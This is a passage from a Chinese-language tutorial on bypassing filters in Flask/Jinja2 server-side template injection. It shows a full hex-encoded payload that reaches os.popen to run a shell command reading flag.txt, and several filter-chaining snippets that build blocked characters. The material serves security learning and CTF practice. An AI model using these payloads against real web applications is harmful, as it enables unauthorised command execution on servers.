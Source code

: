 #### 用Hex编码配合 `|attr()` 进行Bypass

和上面那个一样，只不过是将Unicode编码换成了Hex编码，适用于“u”被过滤了的情况。

我们可以将过滤掉的字符用Hex编码替换掉：

```
{{()|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")|attr("\x5f\x5f\x62\x61\x73\x65\x5f\x5f")|attr("\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f")()|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")(258)|attr("\x5f\x5f\x69\x6e\x69\x74\x5f\x5f")|attr("\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f")|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")("os")|attr("popen")("cat\x20\x66\x6c\x61\x67\x2e\x74\x78\x74")|attr("read")()}}
```

### 使用 JinJa 的过滤器进行Bypass

在 Flask JinJa 中，内只有很多过滤器可以使用，前文的`attr()`就是其中的一个过滤器。变量可以通过过滤器进行修改，过滤器与变量之间用管道符号（`|`）隔开，括号中可以有可选参数，也可以没有参数，过滤器函数可以带括号也可以不带括号。可以使用管道符号（`|`）连接多个过滤器，一个过滤器的输出应用于下一个过滤器。

详情请看官方文档：[https://jinja.palletsprojects.com/en/master/templates/#builtin-filters](https://jinja.palletsprojects.com/en/master/templates/#builtin-filters)

以下是内置的所有的过滤器列表：

| [`abs()`](https://jinja.palletsprojects.com/en/master/templates/#abs) | [`float()`](https://jinja.palletsprojects.com/en/master/templates/#float) | [`lower()`](https://jinja.palletsprojects.com/en/master/templates/#lower) | [`round()`](https://jinja.palletsprojects.com/en/master/templates/#round) | [`tojson()`](https://jinja.palletsprojects.com/en/master/templates/#tojson) |
| --- | --- | --- | --- | --- |
| [`attr()`](https://jinja.palletsprojects.com/en/master/templates/#attr) | [`forceescape()`](https://jinja.palletsprojects.com/en/master/templates/#forceescape) | [`map()`](https://jinja.palletsprojects.com/en/master/templates/#map) | [`safe()`](https://jinja.palletsprojects.com/en/master/templates/#safe) | [`trim()`](https://jinja.palletsprojects.com/en/master/templates/#trim) |
| [`batch()`](https://jinja.palletsprojects.com/en/master/templates/#batch) | [`format()`](https://jinja.palletsprojects.com/en/master/templates/#format) | [`max()`](https://jinja.palletsprojects.com/en/master/templates/#max) | [`select()`](https://jinja.palletsprojects.com/en/master/templates/#select) | [`truncate()`](https://jinja.palletsprojects.com/en/master/templates/#truncate) |
| [`capitalize()`](https://jinja.palletsprojects.com/en/master/templates/#capitalize) | [`groupby()`](https://jinja.palletsprojects.com/en/master/templates/#groupby) | [`min()`](https://jinja.palletsprojects.com/en/master/templates/#min) | [`selectattr()`](https://jinja.palletsprojects.com/en/master/templates/#selectattr) | [`unique()`](https://jinja.palletsprojects.com/en/master/templates/#unique) |
| [`center()`](https://jinja.palletsprojects.com/en/master/templates/#center) | [`indent()`](https://jinja.palletsprojects.com/en/master/templates/#indent) | [`pprint()`](https://jinja.palletsprojects.com/en/master/templates/#pprint) | [`slice()`](https://jinja.palletsprojects.com/en/master/templates/#slice) | [`upper()`](https://jinja.palletsprojects.com/en/master/templates/#upper) |
| [`default()`](https://jinja.palletsprojects.com/en/master/templates/#default) | [`int()`](https://jinja.palletsprojects.com/en/master/templates/#int) | [`random()`](https://jinja.palletsprojects.com/en/master/templates/#random) | [`sort()`](https://jinja.palletsprojects.com/en/master/templates/#sort) | [`urlencode()`](https://jinja.palletsprojects.com/en/master/templates/#urlencode) |
| [`dictsort()`](https://jinja.palletsprojects.com/en/master/templates/#dictsort) | [`join()`](https://jinja.palletsprojects.com/en/master/templates/#join) | [`reject()`](https://jinja.palletsprojects.com/en/master/templates/#reject) | [`string()`](https://jinja.palletsprojects.com/en/master/templates/#string) | [`urlize()`](https://jinja.palletsprojects.com/en/master/templates/#urlize) |
| [`escape()`](https://jinja.palletsprojects.com/en/master/templates/#escape) | [`last()`](https://jinja.palletsprojects.com/en/master/templates/#last) | [`rejectattr()`](https://jinja.palletsprojects.com/en/master/templates/#rejectattr) | [`striptags()`](https://jinja.palletsprojects.com/en/master/templates/#striptags) | [`wordcount()`](https://jinja.palletsprojects.com/en/master/templates/#wordcount) |
| [`filesizeformat()`](https://jinja.palletsprojects.com/en/master/templates/#filesizeformat) | [`length()`](https://jinja.palletsprojects.com/en/master/templates/#length) | [`replace()`](https://jinja.palletsprojects.com/en/master/templates/#replace) | [`sum()`](https://jinja.palletsprojects.com/en/master/templates/#sum) | [`wordwrap()`](https://jinja.palletsprojects.com/en/master/templates/#wordwrap) |
| [`first()`](https://jinja.palletsprojects.com/en/master/templates/#first) | [`list()`](https://jinja.palletsprojects.com/en/master/templates/#list) | [`reverse()`](https://jinja.palletsprojects.com/en/master/templates/#reverse) | [`title()`](https://jinja.palletsprojects.com/en/master/templates/#title) | [`xmlattr()`](https://jinja.palletsprojects.com/en/master/templates/#xmlattr) |

可以自行点击每个过滤器去查看每一种过滤器的作用。我们就是利用这些过滤器，一步步的拼接出我们想要的字符、数字或字符串。

#### 常用字符获取入口点

- 对于获取一般字符的方法有以下几种：

```
{% set org = ({ }|select()|string()) %}{{org}}
{% set org = (self|string()) %}{{org}}
{% set org = self|string|urlencode %}{{org}}
{% set org = (app.__doc__|string) %}{{org}}
```

如下演示：
